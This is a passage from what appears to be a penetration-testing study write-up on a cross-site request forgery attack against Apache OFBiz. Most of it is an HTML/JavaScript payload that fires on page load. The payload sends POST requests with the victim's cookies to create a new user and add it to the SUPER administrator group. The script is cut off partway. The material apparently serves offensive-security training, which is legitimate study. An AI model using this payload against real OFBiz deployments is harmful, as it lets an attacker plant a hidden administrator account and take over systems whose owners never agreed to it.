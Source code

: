 <figure><img src="../../.gitbook/assets/offsec_ofbiz_5.png" alt=""><figcaption><p>Figure 9: Creating a new user and adding them to the <code>SUPER</code> group.</p></figcaption></figure>

Instead of using two forms, we can make requests directly without navigating the browser away from the payload page. In brief, what the below payload does, is creating two functions, one for each `POST` request, where it includes the privilege escalation request within the user creation request to make sure that the execution order is correct. Finally, it explicitly calls the first function at the end, so it is auto-called on page load.

{% code title="ofbiz3.html" overflow="wrap" %}
```html
<html>
<head>
<script>
  var username = "csrftestv2";
  var password = "password";
  var host = "https://ofbiz:8443";
  var create_url = "/webtools/control/createUserLogin";
  var admin_url = "/webtools/control/userLogin_addUserLoginToSecurityGroup";
  var create_params = "enabled=&partyId=&userLoginId=" + username + "&currentPassword=" + password + "&currentPasswordVerify=" + password + "&passwordHint=hint&requirePasswordChange=N&externalAuthId=&securityQuestion=&securityAnswer=";
  var admin_params = "userLoginId=" +username + "&partyId=&groupId=SUPER&fromDate_i18n=&fromDate=&thruDate_i18n=&thruDate=";

  function send_create() { 
    console.log("Creating user..."); 
    fetch(host+create_url, {
      method: 'POST',
      mode: 'no-cors',
      credentials: 'include',
      headers: {'Content-Type': 'application/x-www-form-urlencoded'},
        body : create_params }
      ).then(function(response) {
        send_admin();
	});
  }

  function send_admin() { 
    console.log("Adding admin role..."); 
    fetch(host+admin_url, {
      method: 'POST',
      mode: 'no-cors',
      credentials: 'include',
      headers: {'Content-Type': 'application/x-www-form-urlencoded'},
        body : admin_params }
      ).then(console.log("Should be done..."));
```